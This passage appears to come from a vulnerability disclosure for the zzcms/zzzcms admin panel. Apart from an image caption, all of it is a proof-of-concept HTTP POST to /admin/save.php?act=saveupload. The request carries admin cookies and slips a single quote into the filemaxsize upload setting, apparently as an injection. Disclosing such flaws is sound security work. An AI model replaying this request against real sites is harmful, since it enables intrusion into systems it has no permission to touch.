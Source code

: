 ![image-20231007162204075](./assets/image-20231007162204075.png)

#### POC

```http
POST /admin/save.php?act=saveupload HTTP/1.1
Host: www.zzcms.io
Content-Length: 1176
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.zzcms.io
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://www.zzcms.io/admin/index.php?act=uploadset
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zzz271_adminpass=1; zzz271_adminname=admin; zzz271_adminface=../plugins/face/face01.png; PHPSESSID=cird4j68rud1tppfn20jm51mc0; zzz811_token=7d40f662994070a3eb4ff0a52992a688; zzz271_admintime=1696660830
Connection: close

token=5fa0c8fe32bf6ab09ae6f3bd358107d7&timestamp=1696666974&uploadmark=1&uploadpath=upload/&datefolder=1&covermark=1&imageext=jpg,jpeg,gif,png&imagemaxsize=2mb&imageformat=shijian&compresswidth=2000&compressheight=2000&compressquality=80&fileext=pdf,txt,doc,docx,xls,xlsx,zip,rar&filemaxsize=10mb'&fileformat=pinyin&videoext=mp4,flv,swf&videomaxsize=20mb&videoformat=pinyin&smallmodel=选择模型&about_mode=5&about_width=300&about_height=300&about_quality=80&brand_mode=5&brand_width=400&brand_height=400&brand_quality=80&product_mode=5&product_width=300&product_height=300&product_quality=80&news_mode=5&news_width=300&news_height=300&news_quality=90&job_mode=5&job_width=350&job_height=350&job_quality=80&down_mode=5&down_width=300&down_height=400&down_quality=80&case_mode=5&case_width=300&case_height=500&case_quality=80&video_mode=5&video_width=400&video_height=500&video_quality=80&photo_mode=5&photo_width=500&photo_height=300&photo_quality=80&watertype=0&watermarkfont=zzzcms发生地方&watermarkpic=/images/logo.png&markpicwidth=100&markpicheight=30&markpicalpha=1&watermarklocation=1
```
